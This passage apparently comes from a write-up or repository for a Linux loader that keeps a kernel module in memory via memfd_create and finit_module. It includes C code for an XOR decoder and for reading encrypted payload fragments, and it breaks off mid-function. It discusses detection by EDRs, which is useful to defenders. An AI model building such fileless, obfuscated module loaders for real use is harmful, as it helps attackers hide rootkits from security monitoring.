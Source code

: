 memfd_create creates an anonymous file that:

Exists only in memory (tmpfs)

- Automatically deleted when all file descriptors are closed
- Can be passed to finit_module() like a regular file

Remember that EDRs can monitor `memfd_create()` calls, and it can also be detected in `/proc/<pid>/fd/`

#### XOR Decoder

```c
static void xor_decode(uint8_t *data, size_t len, const uint8_t *key, size_t key_len) {
    for (size_t i = 0; i < len; i++) {
        data[i] ^= key[i % key_len];
    }
}
```

#### Fragment Loading

```c
static int load_fragments(const char *dir_path, Fragment *fragments, int *num_fragments) {
    DIR *dir = opendir(dir_path);
    if (!dir) {
        perror("[!] opendir");
        return -1;
    }
    
    struct dirent *entry;
    int count = 0;
    
    printf("[*] Scanning fragments in: %s\n", dir_path);
    
    while ((entry = readdir(dir)) != NULL && count < MAX_FRAGMENTS) {
        // Look for chunk_XXX.bin
        if (strncmp(entry->d_name, "chunk_", 6) == 0 && 
            strstr(entry->d_name, ".bin") != NULL) {
            
            char filepath[512];
            snprintf(filepath, sizeof(filepath), "%s/%s", dir_path, entry->d_name);
            
            // Extract index
            int idx = atoi(entry->d_name + 6);
            
            // Read fragment
            FILE *f = fopen(filepath, "rb");
            if (!f) {
                fprintf(stderr, "[!] Error opening %s\n", filepath);
                continue;
            }
            
            fseek(f, 0, SEEK_END);
            long fsize = ftell(f);
            fseek(f, 0, SEEK_SET);
            
            uint8_t *data = malloc(fsize);
            if (!data) {
                fclose(f);
                continue;
            }
            
            size_t read_bytes = fread(data, 1, fsize, f);
            fclose(f);
            
```